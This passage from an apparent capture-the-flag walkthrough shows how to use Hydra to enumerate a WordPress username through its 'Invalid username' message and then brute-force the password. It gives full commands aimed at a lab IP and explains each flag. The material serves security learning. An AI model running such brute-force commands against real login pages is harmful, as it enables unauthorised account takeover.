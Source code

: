 If we go to the "Request" tab of the same request we can see all the values that are getting sent to the server when the form is submitted.

![[wordpress-2.png|420]]

The message "Invalid Username" is shown when the user provides an invalid username.

![[wordpress-3.png|540]]

This this knowledge we can now craft the command to find out the username. Once we have the username we can modify the command to find the password.

[How to Brute Force Websites & Online Forms Using Hydra \| Infinite Logins](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)

```bash
hydra -L wordlist.txt -p admin -f -v 10.10.84.69 -s 80 http-post-form "/wp-login.php:log=^USER^&password=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.84.69%2Fwp-admin%2F&testcookie=1:Invalid username."
```

`-L`: Username wordlist  
`-p`: Password  
`-f`: Stop when the first match is found  
`-v`: Verbose Output  
`-s`: Service (Port)  
`http-post-form`: POST request  

The last argument can be broken into three distinct parts: `target:paramters:condition`. The target is the page that contains the form that we want to attack. Parameters are key-value pairs that represent the data being sent to the backend when the form is submitted. If there are multiple parameters then each parameter should be separated by the `&` sign. The condition can be a success condition or failure condition the default is the fail condition (text that will be on the page when the guess is wrong). The fail condition can be written as `F=condition`.

`^USER^` is the substitution placeholder used for usernames.

![[wordlist-3.png|640]]

From this, we discover that the username is `ELLIOT`.

```bash
hydra -l ELLIOT -P wordlist.txt -f -v 10.10.84.69 -s 80 http-post-form "/wp-login.php:log=ELLIOT&password=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.84.69%2Fwp-admin%2F&testcookie=1:S=302"
```

`-l`: Username  
`-P`: Password Wordlist  

In the last argument, the 3rd parameter is `S=302` which denotes a success condition. 302 is the HTTP status code returned when the user is redirected to the next page.

`^PASS^` is the substation placeholder used for the password.

![[wordlist-4.png|640]]
